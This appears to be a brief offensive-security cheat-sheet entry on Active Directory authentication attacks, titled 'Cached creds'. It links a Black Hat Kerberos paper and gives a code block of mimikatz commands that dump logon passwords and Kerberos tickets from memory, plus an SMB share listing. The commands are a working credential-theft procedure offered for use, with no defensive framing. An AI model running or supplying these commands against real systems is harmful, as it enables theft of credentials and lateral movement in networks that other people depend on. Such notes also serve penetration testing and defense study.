 # AD authentication attacks

## Cached creds

https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf

```
PS > .\mimikatz.exe
m $ sekurlsa::logonpasswords
PS2 > dir \\some\smb\share
m $ sekurlsa::tickets
```





